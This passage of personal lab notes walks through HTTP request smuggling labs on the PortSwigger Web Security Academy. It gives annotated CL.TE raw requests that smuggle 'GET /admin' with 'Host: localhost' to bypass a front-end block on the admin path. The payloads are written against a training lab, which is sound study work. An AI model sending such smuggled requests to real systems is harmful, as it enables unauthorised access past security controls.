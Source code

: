 ```text
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 4      ---> 4 is the size of (3,9,\r,\n)
Transfer-Encoding: chunked
\r\n
39\r\n                 ---> 39 is the size in hex for all the request, from the G to the 1
GET /404 HTTP/1.1
X-Ignore: x
Content-Length: 15     ---> Specify an according CL size
\r\n
x=1\r\n
0\r\n
\r\n                   ---> End the second request based on the TE header

```

---
### Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

"Path /admin is blocked"

Let's send our FIRST REQUEST [[0. BSCP]] to test what kind of vuln is this. And we see it's a CL.TE.
Prepare 2 requests in the repeater, one the attacker, and the other one is a normal GET request to the home page, to check if we are successfully smuggling our requests.

Now let's build our attacker request:

```text
POST / HTTP/1.1
Host: 0a8b006704b0786d814fdf7b000f00d9.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Content-Length: 37
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded

0

GET /admin HTTP/1.1
X-Ignore: X
```

Now you'll see with your normal request, you have:
![[Pasted image 20240519164506.png]]

So, let's try to specify a new Host in our smuggled request:
```text
POST / HTTP/1.1
Host: 0a8b006704b0786d814fdf7b000f00d9.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Content-Length: 37
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded

0

GET /admin HTTP/1.1
Host: localhost
```
